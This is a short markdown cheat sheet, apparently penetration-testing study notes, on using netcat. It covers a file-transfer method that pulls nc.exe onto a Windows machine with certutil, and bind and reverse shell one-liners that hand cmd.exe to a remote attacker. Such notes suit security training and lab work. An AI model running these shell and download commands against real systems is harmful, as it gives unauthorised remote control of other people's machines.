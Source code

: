 
# Overview
Netcat (nc) is a TCP/IP Swiss army knife that is great for seething up quick and easy connections or transferring information between two hosts.

# Usage
- `nc -nv 10.4.20.244 80`
- `nc -lnvp <port>` : set up netcat listener
- -n : --nodns
- -l : --listen
- -v : --verbose
- -p : source port
- -u : --udp
- -e : `--exec <command>`
## Send Files
Transfer netcat to Windows.
1. Inside `/usr/share/windows-binaries/` : go to folder
2. `python -m SimpleHTTPServer 80` : set up hosting of the files for DL on Win
3. `certutil -urlcache -f http://<IP>/nc.exe nc.exe` : download using windows utility and save to file "nc.exe"

Listener
```bash
nc -lnvp 1234 > test.txt
```
Sender
```bash
nc -nv <ip> 1234 < test.txt
```

## Bind_Shells
A Netcat listener can be setup to execute a specific executable like cmd.exe or /bin/bash when a client connects to the listener.

\[ Attacker ] >>>------> \[ Target ]

Target - Listener
```bash
nc -lnvp 1234 -e cmd.exe
```
Attacker - Sender
```bash
nc -nv <ip> 1234
```

## Reverse_Shells
The target initiates the connection to the attacker. Great for when there is a firewall in the way. Firewalls usually allow outbound connections.

\[ Attacker ] <------<<< \[ Target ]

Attacker - Listener
```bash
nc -lnvp 1234
```
Target - Sender
```bash
nc -nv <ip> 1234 -e cmd.exe
```

